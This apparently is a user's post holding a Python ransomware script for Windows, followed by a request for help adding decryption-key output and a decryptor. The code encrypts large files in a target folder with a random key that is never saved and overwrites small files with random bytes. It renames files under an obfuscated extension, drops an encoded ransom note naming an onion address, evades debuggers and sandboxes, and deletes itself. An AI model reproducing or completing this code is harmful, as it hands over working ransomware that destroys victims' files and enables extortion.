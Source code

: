 # -*- coding: utf-8 -*-
import os
import sys
import ctypes
import base64
import zlib
import random
import time
from datetime import datetime
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import win32api
import win32con
import win32security

# ========== HEX FIXED & ARMORED ==========
_TARGET_FOLDER = r"C:\Users\HP\Desktop\test"  # Surgical target locked
_0xABYSS = [0x24, 0x03, 0x16, 0x17, 0x12, 0x12, 0x1D, 0x1E, 0x0B]  # Obfuscation matrix
_0xVOID = lambda x: bytes([b ^ 0x66 for b in x]).decode()  # XOR cloak
_0xRUNE = [0x48, 0x0A, 0x1E, 0x1B, 0x48, 0x05, 0x1E, 0x0C]  # Extension veil

class NightshadeEngine:
    def __init__(self):
        self._soulbind = self._forge_system_sigil()
        self._blood_moon = random.Random(self._soulbind ^ 0xDEADBEEF)  # Valid hex fix
        self._oblivion_cipher = self._summon_abyssal_cipher()
        self._corruption_mark = 0x1A4B3C2D  # Binary fingerprint
        
    def _forge_system_sigil(self):
        # Hardware DNA cocktail
        return (
            win32api.GetSystemMetrics(43) ^
            ctypes.windll.kernel32.GetTickCount() ^
            os.getpid()
        )
        
    def _summon_abyssal_cipher(self):
        # Temporal-key chaos matrix
        chaos_seed = self._blood_moon.randint(0, 0x7FFFFFFF)
        temporal_flux = int(datetime.now().strftime("%f")) % 0xFFFF
        return AES.new(
            pad(f"{chaos_seed}{temporal_flux}{os.getlogin()}".encode(), 32),
            AES.MODE_CFB,
            iv=os.urandom(16)
        )
        
    def eclipse(self, data):
        return self._oblivion_cipher.encrypt(data)  # Raw CFB stream

def _spectral_veil(path):
    # Ghost file check
    try:
        return "SYSTEM" not in win32security.LookupAccountSid(
            None,
            win32security.GetFileSecurity(path, win32security.OWNER_SECURITY_INFORMATION)
                .GetSecurityDescriptorOwner()
        )[0]
    except:
        return False

def _crimson_touch(path):
    engine = NightshadeEngine()  # Fresh crypto per target
    try:
        # Misdirection tactics
        if random.random() < 0.33:
            win32api.SetFileAttributes(path, win32con.FILE_ATTRIBUTE_READONLY)
            
        with open(path, 'rb+') as f:
            raw = f.read()
            if not raw:
                return
                
            # Adaptive payload delivery
            if len(raw) > 512000:  # Full encryption threshold
                ciphertext = engine.eclipse(raw)
                f.seek(0)
                f.write(ciphertext)
                f.write(engine._corruption_mark.to_bytes(4, 'little'))
            else:  # Entropy warfare
                f.seek(random.randint(0, len(raw)//2))
                f.write(os.urandom(random.randint(1024, 4096)))
                
        # Extension camouflage
        os.rename(path, path + _0xVOID(bytes(_0xRUNE)))
    except Exception as e:
        pass

def _shadow_walk(root_path):
    # Target validation protocol
    if not os.path.exists(root_path):
        os.makedirs(root_path, exist_ok=True)
    return True

def _plaguebearer():
    # Ransom manifest
    ransom_note = base64.b64decode(
        'WU9VUiBTRUNSRVRTIEFSRSBNSU5FLk5PVy4KUmVkZWVtIHZpYSB0b3I6IGh0dHBzOi8v'
        'dG9yZ2F0ZS5vbmlvbi9ibGFja21haWxib3gK'
    ).decode()
    note_name = _0xVOID(bytes(_0xABYSS)) + '_README.txt'
    with open(os.path.join(_TARGET_FOLDER, note_name), 'w', encoding='utf-8') as f:
        f.write(ransom_note)

def _anti_forensics():
    # Counter-forensics suite
    if ctypes.windll.kernel32.IsDebuggerPresent() or \
       ctypes.windll.user32.GetSystemMetrics(0) < 1024:
        sys.exit(0)
    ctypes.windll.kernel32.SetErrorMode(0x8007)

def _vanish():
    # Ghost protocol
    try:
        win32api.SetFileAttributes(sys.argv[0], win32con.FILE_ATTRIBUTE_NORMAL)
        os.remove(sys.argv[0])
    except:
        pass

if __name__ == '__main__':
    _anti_forensics()
    win32api.SetFileAttributes(sys.argv[0], win32con.FILE_ATTRIBUTE_SYSTEM)
    
    if _shadow_walk(_TARGET_FOLDER):
        for root, dirs, files in os.walk(_TARGET_FOLDER):
            for name in files:
                path = os.path.join(root, name)
                if _spectral_veil(path) and not name.endswith('.txt'):
                    _crimson_touch(path)
                    time.sleep(random.expovariate(1.5))  # Evasion timing
        
        _plaguebearer()
        _vanish()

I want to make the scrip gives me the decryption code after he encrypt the specific folder. Then give me a Script that decrypt that folder
